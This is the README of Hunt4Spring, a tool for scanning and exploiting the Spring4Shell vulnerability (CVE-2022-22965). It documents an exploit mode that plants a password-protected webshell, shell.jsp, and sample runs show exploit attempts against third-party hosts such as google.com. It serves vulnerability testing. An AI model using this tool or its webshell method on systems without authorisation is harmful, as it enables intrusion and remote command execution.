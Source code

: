 # Hunt4Spring

Hunt4Spring helps with identifying as well as exploiting URLs which are potentially vulnerable to [CVE-2022-22965](https://tanzu.vmware.com/security/cve-2022-22965) aka Spring4Shell.

**Video Demo:** https://www.youtube.com/watch?v=JnAnXDFKkF0

## Usage

```
 $ ./hunt4spring -h

  _    _             _   _  _   _____            _             
 | |  | |           | | | || | / ____|          (_)            
 | |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
 |  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
 | |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
 |_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                     | |                  __/ |
                                     |_|                 |___/ 



 [+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
 [+] Author: Umair Nehri (RHL Research Team)
 [+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

 Usage of ./hunt4spring:
 -exploit
         Turns on exploitation mode.
 -file string
         Specify a file containing a list of target URLs.
 -outfile string
         Output file name to store results. (default "hunt4spring.json")
 -url string
         Specify a single target URL.
```

To use the tool, you can grab any one of the binaries from the [releases section](https://github.com/redhuntlabs/Hunt4Spring/releases) or build the source code yourself. The code is in Go, hence a simple `go build` will do the job, provided you have a working Go setup.

### Flags
In order to run Hunt4Spring, users have two options available. Either they can provide a single URL using the `-url` flag or provide with bulk URLs through a file by using the `-file` flag. 

You can specify the name of the file to store the output in JSON format by using the `-outfile` flag. [By default the output gets stored in a file called `hunt4spring.json`]

```sh
$ ./hunt4spring -url http://127.0.0.1:8080/ -exploit -outfile op.json

 _    _             _   _  _   _____            _             
| |  | |           | | | || | / ____|          (_)            
| |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
|  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
| |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
|_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                    | |                  __/ |
                                    |_|                 |___/ 
                                                                                                                                                                                        


[+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Umair Nehri (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

2022/04/01 17:40:04 Checking: http://127.0.0.1:8080/
2022/04/01 17:40:04 http://127.0.0.1:8080/ [Seems to be vulnerable!]
2022/04/01 17:40:04 Trying to exploit: http://127.0.0.1:8080/
2022/04/01 17:40:06 Shell was successfully uploaded! Address: http://127.0.0.1:8080/shell.jsp?pwd=hunt4spring&cmd=whoami

+------------------------+---------------------------+
|          HOST          | VULNERABILITY POSSIBILITY |
+------------------------+---------------------------+
| http://127.0.0.1:8080/ | YES                       |
+------------------------+---------------------------+
```

### Usage Modes 
#### Default Mode
In the default mode, user doesn't has to specify any additional flags and this mode would be used by the tool by default. The tool will look for all URL/URLs which are potentially vulnerable to this vulnerability.

We do not have to provide any additional flags in this case.

```sh
$ ./hunt4spring -file test.txt

 _    _             _   _  _   _____            _             
| |  | |           | | | || | / ____|          (_)            
| |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
|  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
| |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
|_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                    | |                  __/ |
                                    |_|                 |___/ 
                                                                                                                                                                                        


[+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Umair Nehri (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

2022/04/01 17:42:20 Checking: http://google.com/

2022/04/01 17:42:21 Checking: https://epic.com/

2022/04/01 17:42:26 Checking: http://127.0.0.1:8082/

2022/04/01 17:42:26 Checking: http://127.0.0.1:8080/
2022/04/01 17:42:26 http://127.0.0.1:8080/ [Seems to be vulnerable!]

2022/04/01 17:42:26 Checking: http://127.0.0.1/

+------------------------+---------------------------+
|          HOST          | VULNERABILITY POSSIBILITY |
+------------------------+---------------------------+
| http://google.com/     | NO                        |
| https://epic.com/      | NO                        |
| http://127.0.0.1:8082/ | NO                        |
| http://127.0.0.1:8080/ | YES                       |
| http://127.0.0.1/      | NO                        |
+------------------------+---------------------------+
```

#### Exploit Mode
In the exploit mode, the tool would not just scan the URL/URLs but would even try to exploit them by placing a webshell in the target's root directory. The name of the webshell would be **shell.jsp** having the password **hunt4spring**.

In order to enable exploit mode, we have to provide an addtional flag (`-exploit`) along with the normal input flags:
```sh
$ ./hunt4spring -file test.txt -exploit

 _    _             _   _  _   _____            _             
| |  | |           | | | || | / ____|          (_)            
| |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
|  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
| |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
|_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                    | |                  __/ |
                                    |_|                 |___/ 
                                                                                                                                                                                        


[+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Umair Nehri (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

2022/04/01 17:44:03 Checking: http://google.com/
2022/04/01 17:44:04 Trying to exploit: http://google.com/

2022/04/01 17:44:06 Checking: https://epic.com/
2022/04/01 17:44:11 Trying to exploit: https://epic.com/

2022/04/01 17:44:17 Checking: http://127.0.0.1:8082/
2022/04/01 17:44:17 Trying to exploit: http://127.0.0.1:8082/

2022/04/01 17:44:17 Checking: http://127.0.0.1:8080/
2022/04/01 17:44:17 http://127.0.0.1:8080/ [Seems to be vulnerable!]
2022/04/01 17:44:17 Trying to exploit: http://127.0.0.1:8080/
2022/04/01 17:44:20 Shell was successfully uploaded! Address: http://127.0.0.1:8080/shell.jsp?pwd=hunt4spring&cmd=whoami

2022/04/01 17:44:20 Checking: http://127.0.0.1/
2022/04/01 17:44:20 Trying to exploit: http://127.0.0.1/

+------------------------+---------------------------+
|          HOST          | VULNERABILITY POSSIBILITY |
+------------------------+---------------------------+
| http://google.com/     | NO                        |
| https://epic.com/      | NO                        |
| http://127.0.0.1:8082/ | NO                        |
| http://127.0.0.1:8080/ | YES                       |
| http://127.0.0.1/      | NO                        |
+------------------------+---------------------------+
```

### Output
The output file saves the data in JSON format like below:
```json
[
    {
        "host": "http://127.0.0.1:8080/",
        "is_vulnerable": true,
        "exploit_completed": true,
        "payload_path": "http://127.0.0.1:8080/shell.jsp?pwd=hunt4spring\u0026cmd=whoami"
    }
]
```

### Setting up a Test Environment
If you'd like to test out Spring4Hunt or the Spring4Shell vulnerability in general, then you can refer to this docker image: [vulfocus/spring-core-rce-2022-03-29](https://hub.docker.com/r/vulfocus/spring-core-rce-2022-03-29).

The installation process is quite simple in this case as well, you just have to run the below command: 
```
docker run -p 9090:9090 vulfocus/spring-core-rce-2022-03-29
```
The app should now be available at `http://localhost:9090`.

### More details around Spring4Shell
We have covered more details around Spring4Shell Vulnerability in our [blog](https://redhuntlabs.com/blog/the-spring4shell-vulnerability.html).

### License & Version
The tool is licensed under the MIT license. See [LICENSE](LICENSE).
Currently the tool is at v0.1.

### Credits
The Research Team at [RedHunt Labs](https://redhuntlabs.com) would like to thank [@vx-underground](https://www.vx-underground.org/) for the initial PoC.

##### **[`To know more about our Attack Surface Management platform, check out NVADR.`](https://redhuntlabs.com/nvadr)**
